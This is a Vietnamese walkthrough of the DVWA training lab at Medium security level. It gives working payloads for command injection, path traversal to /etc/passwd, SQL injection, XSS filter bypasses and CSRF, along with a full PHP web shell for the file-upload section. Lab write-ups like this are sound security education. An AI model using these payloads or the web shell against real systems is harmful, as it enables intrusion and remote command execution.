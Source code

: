 # DVWA - Security Level: Medium  

## 1. Brute Force
Su dung **BurpSuite** bat goi tin khi thuc hien chuc nang **Login**:  
  
![Brute Force_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Brute%20Force_1.png)  
  
Su dung chuc nang **Intruder**, de tan cong brute force tim kiem mat khau cua tai khoan **admin**  
**Result:**  
O muc do **Medium**, moi lan dang nhap sai se phai doi 2s, viec nay khong chong lai duoc tan cong brute froce nhung co the lam tang thoi gian thuc hien.  
Tai khoan: **admin**  
Mat khau: **password**  
## 2. Command Injection
**Payload**  
```
|| whoami
```
**Result:**  
Chuc nang **Ping a device** da thuc hien loc, loai bo cac ky tu **";" va "&&"**. Nhung bo sot doi voi ky tu **"||"**.  
  
![Command Injection_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Command%20Injection_1.png)
  
## 3. CSRF
**Payload**  
```
<img src="http://127.0.0.1/DVWA/vulnerabilities/csrf/?password_new=abc123&password_conf=abc123&Change=Change">/img>
```
**Result:**  
Su dung lo hong XSS (Reflected):
  
![CSRF_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/CSRF_1.png)
      
## 4. File Inclusion
**Payload**  
```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=....//....//....//....//....//....//etc/passwd
```
**Result:**  
He thong da thuc hien kiem soat input bang cach loai bo chuoi ky tu **"../"** trong du lieu input, nhung chua loai bo hoan toan:  
  
![File Inclusion_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Inclusion_1.png)  
  
## 5. File Upload
**Payload**  
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
**Result:**  
He thong da chan, chi cho phep upload file JPEG hoac PNG images:  
  
![File Upload_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Upload_1.png)  
  
Su dung Burp Suite bat goi tin khi thuc hien upload file shell.png:  
  
![File Upload_2](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Upload_2.png)  
  
Thay doi ten va noi dung file shell.png:  
  
![File Upload_3](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Upload_3.png)  
  
Upload thanh cong:  
  
![File Upload_4](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/File%20Upload_4.png)  
  
## 6. Insecure CAPTCHA
**Payload**:  
  
![Insecure CAPTCHA_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Insecure%20CAPTCHA_1.png)  
  
**Result:**  
Tuong tu nhu voi muc do Low, chi can gui request **step 2** voi **passed_captcha=true**.  
## 7. SQL Injection
**Payload**  
```
1 UNION SELECT user, password FROM users-- -
```
**Result:**  
Su dung **Burp Suite** chan goi tin khi chon **Submit**:  
  
![SQL Injection_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/SQL%20Injection_1.png)  
  
Thay doi gia tri **ID**:  
  
![SQL Injection_2](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/SQL%20Injection_2.png)  
  
## 8. SQL Injection (Blind)
**Payload**  
```
1 AND SLEEP(1)-- -
```
**Result:**  
  
![SQL Injection (Blind)\_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/SQL%20Injection%20(Blind)_1.png)  
  
## 9. Weak Session IDs  
**Result:**  
Khi **Generate**, gia tri **dvwaSession** duoc tao ra moi lan khac nhau:  
  
![Weak Session IDs_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Weak%20Session%20IDs_1.png)  
  
Gia tri **dvwaSession** tuong ung voi gia tri **time stamp** khi duoc tao:  
  
![Weak Session IDs_2](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/Weak%20Session%20IDs_2.png)  
  
## 10. XSS (DOM)
**Payload**  
```
>/option></select><img src='x' onerror='alert(1)'>
```
**Result:**  
Tag **<script** bi loai bo, su dung tag **img** kem theo dong cac tag **option, select**:   
  
![XSS (DOM)\_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/XSS%20(DOM)_1.png)  
  
## 11. XSS (Reflected)
**Payload**  
```
<scripT> alert(1) </Script>
```
**Result:**  
  
![XSS (Reflected)\_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/XSS%20(Reflected)_1.png)  
  
## 12. XSS (Stored)
**Payload**  
```
<img src='x' onerror='alert(1)'>
```
**Result:**  
Thay doi thong so **maxlength** cua o input **name**:  
  
![XSS (Stored)\_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/XSS%20(Stored)_1.png)  
  
Chen **payload** vao o input **name**:  
![XSS (Stored)\_2](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/XSS%20(Stored)_2.png)  
  
## 13. CSP Bypass
**Payload**  
Co the chay script tu cac nguon sau:  
```
Content-Security-Policy
	script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';
```
**Result:**  
Upload file **csp.js** bang chuc nang **File Upload**:  
**csp.js**
```  
alert('CSP')
```  
He thong van cho phep chay script tren server voi gia tri **nonce** trung voi gia tri **nonce** trong **Content-Security-Policy**:  
```  
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=" src="../../hackable/uploads/csp.js"></script>  
```  
![CSP Bypass_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/CSP%20Bypass_1.png)  
  
## 14. JavaScript
Tuong tu nhu cap do Low, **token** duoc tao bang script sau:  
```  
function do_something(e) {
    for (var t = "", n = e.length - 1; n >= 0; n--) t += e[n];
    return t
}
setTimeout(function() {
    do_elsesomething("XX")
}, 300);

function do_elsesomething(e) {
    document.getElementById("token").value = do_something(e + document.getElementById("phrase").value + "XX")
}
```  
**Payload**  
```
token=XXsseccusXX&phrase=success&send=Submit
```
**Result:**  
  
![JavaScript_1](https://github.com/ckiev5/DVWA/blob/main/Images/Medium%20Level/JavaScript_1.png) 
  
  
